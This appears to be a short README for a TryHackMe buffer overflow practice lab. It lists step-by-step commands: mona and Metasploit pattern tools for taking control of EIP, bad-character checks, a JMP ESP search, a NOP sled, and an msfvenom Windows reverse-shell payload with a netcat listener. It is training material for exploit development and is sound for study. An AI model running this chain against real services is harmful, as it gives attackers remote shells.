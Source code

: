 # How to use it

1 - Mona Configuration
\
`!mona config -set workingfolder c:\mona\%p` (Configure mona)

2 - Fuzzer payload
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/fuzzing.py

3 - Crash Replication & Controlling EIP
\
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` (Change the -l value to the value that crashed the server)
\
Then use Exploit payload:
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/exploit.py

4 - Search Offset
\
`!mona findmsp -distance 600` (Change the -l value to the value that crashed the server to find the EIP)
\
Then, update the exploit and set the offset variable. to the previews value and set retn to "BBBB"

5 - Finding bad characters
\
`!mona bytearray -b "\x00"`
\
the use badcharacter payload
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/badcharacters.py
\
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>` (Address EIP)
\
and try to find the badcharacters

6 - Find a Jump Point
\
`!mona jmp -r esp -cpb "\x00"`
\
Find a jump point (Search de addres to set on the exploit in the part of "retn")

7 - Prepend NOPs
\
`padding = "\x90" * 16`

8 - Create Shell
\
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0IPHERE LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

9 - Netcat listener

10 - exploit!
